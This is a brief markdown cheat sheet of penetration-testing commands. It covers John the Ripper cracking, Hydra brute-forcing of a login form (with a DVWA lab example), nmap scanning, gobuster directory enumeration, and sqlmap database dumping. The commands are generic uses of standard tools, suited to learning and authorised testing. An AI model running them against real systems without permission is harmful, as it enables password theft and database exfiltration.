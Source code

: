 # <p align=center>John The Ripper</p>

### Bruteforce File
```
john --wordlist=[WORDLIST] [FILE]
```
### Show Format List
```
john --list=formats
```
### Bruteforce Hash
```
john --formats=[HASH] [FILE]
```

# <p align=center>Hydra</p>

### Bruteforce Password
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] [PROTOCOL]
```
### Bruteforce Via HTTP
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] http-[REQUEST METHOD]-form "[PATH]:[REQUEST BODY]:[INCORRECT ALERT]"
```
Example :
```
hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-get-form "/DVWA/vulnerabilities/brute:username=admin&password=^PASS^:Username and/or password incorrect."
```

# <p align=center>NMAP</p>

### Aggresive & Verbose Scan
```
nmap -v -A [IP]  
```

# <p align=center>Gobuster</p>

### Directory Enumeration
```
gobuster dir -u [URL] -w [WORDLIST] 
```

# <p align=center>Sqlmap</p>

### SQL Injection from File
```
sqlmap -r [FILE LOCATION] --dbs
```
### SQL DUMP
```
sqlmap -r [FILE LOCATION] --dump
```
Example :
```
sqlmap -r Belajar/learn/sqlmap/latihan.txt --dbs
```
